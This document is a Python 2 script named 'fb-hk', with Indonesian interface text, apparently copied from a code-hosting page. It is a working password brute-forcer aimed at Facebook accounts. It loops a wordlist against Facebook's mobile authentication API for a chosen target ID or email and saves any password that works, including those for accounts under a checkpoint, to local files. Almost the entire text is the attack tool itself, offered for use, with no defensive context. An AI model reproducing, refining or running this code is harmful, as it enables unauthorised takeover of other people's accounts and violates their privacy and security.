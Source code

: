 # fb-hk
import os, sys, time, datetime, random, json from multiprocessing.pool import ThreadPool try:     import mechanize except ImportError:     os.system('pip2 install mechanize') else:     try:         import requests     except ImportError:         os.system('pip2 install requests')  from requests.exceptions import ConnectionError from mechanize import Browser reload(sys) sys.setdefaultencoding('utf8') br = mechanize.Browser() br.set_handle_robots(False) br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1) br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]  internet = '\n\x1b[33;1m     \xe2\x95\xad\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2\x94\x81\xe2                                       > banner = '\n\033[31;1m____ ____ ____ ____ ___  ____ ____ _  _\n|___ |__| |    |___ |__] |  | |  | |_/\n\033[37;1m|                                          >   def ceknet():     try:         os.system('reset')         print internet         print '\r\033[37;1m[\x1b[92m+\033[37;1m] \033[37;1mMeriksa Koneksi Internet'         time.sleep(2)         toolbar_width = 25         sys.stdout.write('[%s]' % ('-\033[37;1m' * toolbar_width))         sys.stdout.flush()         for i in range(toolbar_width):             sys.stdout.write('\r')             sys.stdout.flush()             sys.stdout.write('\033[37;1m[')             sys.stdout.write('\033[36;1m#\033[37;1m' * (i + 1))             sys.stdout.flush()             time.sleep(5.0 / 100)         try:             rq = requests.get('http://facebook.com')             time.sleep(3.5)             print '\033[37;1m] \033[35;1m~> \033[32;1mSucces '             time.sleep(2.0)             start()         except requests.exceptions.ConnectionError:             time.sleep(3.5)             print '\033[37;1m]\033[35;1m ~>\033[31;1m Tidak Ada koneksi'             time.sleep(1.5)             sys.exit()      except KeyboardInterrupt:         time.sleep(3.5)         exit('\n\033[37;1m[\x1b[92mx\033[37;1m] \033[31;1mProgram berhenti\n')  def start():         try:             os.system('reset')             print banner             email = raw_input('\033[34;1m[\033[37;1m~\033[34;1m]\033[37;1m ID \033[36;1m| \033[37;1mEmail\033[36;1m |                                       >             passw = raw_input('\033[34;1m[\033[37;1m~\033[34;1m]\033[37;1m File Wordlist   \033[31;1m:\033[32;1m ')             total = open(passw, 'r')             total = total.readlines()             print '\033[34;1m[\033[37;1m^\033[34;1m] \033[37;1mTarget\033[36;1m :\033[32;1m ' + email             time.sleep(3.0)             print '\033[34;1m[\033[37;1m^\033[34;1m] \033[37;1mTotal List \033[36;1m:\033[32;1m ' + str(len(total))             time.sleep(3.0)             print             sandi = open(passw, 'r')             for pw in sandi:                 try:                     pw = pw.replace('\n', '')                     sys.stdout.write('\r\033[32;1m[\033[37;1m=\033[32;1m]\033[34;1m Start \033[37;1m>\033[35;1m '+ema                                       >                     sys.stdout.flush()                     data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25                                       >                     mpsh = json.loads(data.text)                     if 'access_token' in mpsh:                         dapat = open('succes.txt', 'w')                         dapat.write('[ID]=> ' + email + '\n')                         dapat.write('[PW]=> ' + pw)                         dapat.close()                         print '\n\n\033[32;1m[+] \033[37;1mPASSWORD FOUND'                         print '\033[32;1m[+] \033[37;1mUsername \033[32;1m: \033[35;1m'+email                         print '\033[32;1m[+] \033[37;1mPassword \033[32;1m:\033[35;1m '+pw                         print '\033[32;1m[+] \033[37;1mStatus   \033[32;1m:\033[32;1m SUCCES'                         print '\033[32;1m[=] \033[37;1mProgram Finish'                         sys.exit()                     else:                         if 'www.facebook.com' in mpsh['error_msg']:                             ceks = open('succesCP.txt', 'w')                             ceks.write('[ID]=> ' + email + '\n')                             ceks.write('[PW]=> ' + pw)                             ceks.close()                             print '\n\n\033[33;1m[+] \033[37;1mPASSWORD FOUND'                             print '\033[33;1m[+] \033[37;1mUsername \033[32;1m: \033[35;1m'+email                             print '\033[33;1m[+] \033[37;1mPassword \033[32;1m:\033[35;1m '+pw                             print '\033[33;1m[+] \033[37;1mStatus   \033[32;1m:\033[33;1m CHEKPOINT'                             print '\033[33;1m[=] \033[37;1mProgram Finish'                             sys.exit()                 except requests.exceptions.ConnectionError:                     print '\033[37;1m[\033[32;1mx\033[37;1m] \033[31;1mkoneksi error'                     sys.exit()          except IOError:             print '\033[37;1m[\033[32;1mx\033[37;1m] \033[37;1mAlamat wordlist tidak ada'             print '\033[37;1m[\033[32;1mx\033[37;1m] \033[37;1mSaya sarankan Untuk Membuatnya sendiri'             sys.exit()  ceknet()
